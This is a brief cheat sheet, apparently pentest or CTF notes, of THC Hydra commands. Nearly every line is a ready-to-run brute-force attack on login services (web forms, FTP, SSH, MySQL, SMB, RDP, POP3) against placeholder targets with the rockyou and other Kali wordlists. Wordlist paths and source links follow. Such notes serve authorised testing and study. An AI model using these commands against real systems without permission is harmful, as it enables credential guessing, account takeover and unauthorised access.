 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/Login Page:Request Body:Error Message"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://Target_IP

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP ssh

$ hydra -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://IP_Address:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://IP_Address:33389/

## POP3

$hydra -f -l user-name -P /usr/share/wordlists/fasttrack.txt Target_IP pop3

## Dir Kali Passwords Wordlists

/usr/share/wordlists/rockyou.txt

/usr/share/wordlists/fasttrack.txt

/usr/share/wordlists/john.lst

/usr/share/wordlists/nmap.lst

/usr/share/wordlists/legion

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
